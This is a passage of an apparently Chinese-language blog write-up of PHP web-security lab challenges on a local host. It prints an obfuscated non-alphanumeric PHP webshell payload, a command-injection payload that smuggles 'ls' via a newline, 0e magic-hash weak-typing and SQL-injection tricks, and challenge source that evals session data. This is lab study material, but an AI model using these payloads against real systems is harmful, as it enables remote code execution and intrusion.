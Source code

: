 ````php
http://192.168.1.134/Challenge5.php?c=$_=%27%27;$_[%2b$_]%2b%2b;$_=$_.%27%27;$__=$_[%2b%27%27];$_=$__;$___=$_;$__=$_;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$___.=$__;$___.=$__;$__=$_;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$___.=$__;$__=$_;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$___.=$__;$__=$_;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$___.=$__;$____=%27_%27;$__=$_;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$____.=$__;$__=$_;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$____.=$__;$__=$_;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$____.=$__;$__=$_;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$__%2b%2b;$____.=$__;$_=$$____;$___($_[_]);
````
web页面:
![](https://1dayluo.github.io/post-images/1599127806565.png)
我在webshell的url下传参给_，没有生效。不知道为什么.
![](https://1dayluo.github.io/post-images/1599127826511.png)
## Challenge6 #命令执行，waf绕过

（Linux环境运行php）payload:

`http://192.168.1.134/Challenge6.php?ip=127.0.0.1%0als`

## Challenge7 php弱类型
php中==会把0e开头的字符串当作科学计数法的形式用（admin674227342的md5值也是0e开头）。只需输入一个32位0e开头的值即可
这道题的题解并没在本地环境中生效。php版本从5.2/5.3/5.4/5.5/5.6到php7都没有触发，很想知道是为什么

## Challenge8 SQL注入#tricks
关键在下句

`mysqli_query($mysqli,"desc `secret_{$table}`") or Hacker();`
desc没有用反引号与内置关键字区分开
![](https://1dayluo.github.io/post-images/1599127903177.png)

## Challenge9
````php
<?php
//A webshell is wait for you
ini_set('session.serialize_handler', 'php');
session_start();
class OowoO
{
   public $mdzz;
   function __construct()
   {
           $this->mdzz = 'phpinfo();';
   }
   function __destruct()
   {
           eval($this->mdzz);
   }
}
if(isset($_GET['phpinfo']))
{
   $m = new OowoO();
}
````